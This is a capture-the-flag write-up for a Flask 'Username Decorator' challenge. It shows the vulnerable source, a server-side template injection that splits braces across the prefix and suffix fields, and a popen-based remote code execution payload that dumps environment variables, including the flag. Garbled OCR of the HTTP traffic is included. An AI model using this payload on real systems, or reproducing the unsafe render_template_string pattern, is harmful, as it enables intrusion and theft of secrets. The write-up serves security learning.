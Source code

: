 # Username Decorator
> My favorite social media platform, Prorope, has overhauled their username system and now supports prefixes and suffixes! Isn't that so cool?

> For one, I know that I would really love to be the !! JW !!, so I made a website to preview these username changes.

> Note: the flag is in an environment variable called FLAG

## About the Challenge
We were given a source code that contain 2 python code, here is the content of `app.py` file

```python
from flask import Flask, render_template_string, request
import re

app = Flask(__name__)
app.config['FLAG_LOCATION'] = 'os.getenv("FLAG")'

def validate_username(username):
  return bool(re.fullmatch("[a-zA-Z0-9._\[\]\(\)\-=,]{2,}", username))

@app.route('/', methods=['GET', 'POST'])
def index():
    prefix = ''
    username = ''
    suffix = ''
    
    if request.method == 'POST':
      prefix = (request.form['prefix'] or '')[:2]
      username = request.form['username'] or ''
      suffix = (request.form['suffix'] or '')[:2]
      if not validate_username(username): username = 'Invalid Username'
	
    template = '<!DOCTYPE html><html><body>\
    <form action="" method="post">\
      Prefix: <input name="prefix"> <br>\
      Username: <input name="username"> <br>\
      Suffix: <input name="suffix"> <br> \
      <input type="submit" value="Preview!">\
    </form><h2>%s %s %s</h2></body></html>' % (prefix, username, suffix)
    return render_template_string(template)

@app.route('/flag')
def get_flag():
  return 'Nein'
  import os
  return eval(app.config['FLAG_LOCATION'])
```

And here is the preview of the website


[Image extracted text: Prefix:
Username:
Suffix:
Previewl]


## How to Solve?
The website is vulnerable to SSTI (Server Side Template Injection). To exploit the website we need to input `{{` in the `Prefix` form and `}}` in the `Suffix` form. For example im gonna check using `{{config}}` to see if the website is vulnerable to SSTI or not


[Image extracted text: Prefix:
Username:
Suffix:
Previewl
<Config {'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None; 'SECRET_KEY': None,
'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days-31), 'USE_X_SENDFILE': False,
SERVER NAME': None,
APPLICATION_ROOT': '/ , 'SESSION_COOKIE_NAME': 'session' , 'SESSION_COOKIE_DOMAIN': None,
SESSIONCOOKIE_PATH' :
None,
SESSION
COOKIE_HTTPONLY' : True,
SESSION_COOKIE_SECURE
False, 'SESSION_
COOKIE_SAMESITE' : None,
SESSION
REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH: None, 'SEND_FILE_MAX
AGE_DEFAULT': None,
TRAP_BAD_REQUEST_ERRORS' :
None,
TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False,
'PREFERRED
URL
SCHEME': 'http'
TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE' =
4093, 'FLAG_LOCATION':
'os-getenv("FLAG")}>]


So, to escalate the impact of SSTI, im using this payload to do Remote Code Execution

```
url_for.__globals__.os.__dict__.popen(request.args.file).read()
```

And then add new parameter called `file` in the request that contain unix command


[Image extracted text: POST
/2 filesent
HTTP/1.1
HTTP / 1
200
Host :
198,
199
90-158:37850
Server
cnicorn
User-Agent
Hozilla/5
(Vindous
IT
10 _
Vin64;
*64;
rv:109
Dace
Sat
Jun
2023
13: 39:17
GHT
Gecko/ZO1OO1ol
Firefor/113
Connect
on:
close
Aecept
Concent-
Type
cere/htil;
charsetsucf-8
cert /htul
application/ xhtnltxul, application/xul;q-0.9
image/ avif,
Content-
Lencth:
879
inage /uebp
f"
{4F0
Lccept-Language
en-US
en ; 4-0
!DOCTIPE
hcal<htnl>
Aecept
Encoding:
gzip
deflace
<bodyz
Content
Type-
applicat
on / *
IV-for-urlencoded
form
action=
method-"Post
Content-Lengch:
108
Prefix:
<input
nane
prefix
Origin:
http: / /198
199
90_
1583 37850
<br>
Connect
close
Usernae
<inpuc
nane
usernande
Referer:
http
1/198
199
90-158:37850/
<br>
Upgrade
Ins
cure
Sts:
Suffix:
<input
neln =
suffix
<br>
prefix=
7Bt ZBfusernane=
<input
type=
subhit
Falue
Previeri " >
ur 1
for
globals
05 .
dict
Popent
~Brequest
args-
file -9
read
28429Esuffix=t7D$ 7D|
</ form>
<h_>
HOSTNAHE-=84421f112f17
PTTHCH
PIP
VERSION-_3-
3.1
10
HOHE= /nonexiscent
11
GPG_KEY-1035CBCI9EISBABEIECEAB6BE4E6-8FBD684696D
PTTHON
GET
PIP_UPL-hctps: / /gichub
con/pypa/ get-pip/rav/0d85
70dc44796f43696652222cf176b3db6ac70e/public/get-pip
PY
SERVER_SOFTWARE-gunicorn/20
PLTH- /usr
local/bin: /uS
local/sbin: /usr
local/bin: /usr / sbi
n: /usr /bin: /sbin: /bin
15
LAIG-C
UTF-8
16
PTTHON
VERSION- 3
11 -
17
PTTHON_
SETUPTOOLS
VERSION-6 5
18
JAIL
EITV
FLAG-ctf(jist_
uS:
_pr Op 31,
E 31p14Ing_411 34dy}
19
PUD= /var /=u/ chall
PTTHON_GET
PIP
SHA 2 56-96461deced522a487dde65207ec5a9cffeca0
d34e7af7ealafc470ff04746207
FLAG-ctf{jist
4s3_prOp31_
31pl4 Ing_41r34dy}
</h->
~[body>
que]


```
ctf{j4st_us3_pr0p3r_t3mp14t1ng_4lr34dy}
```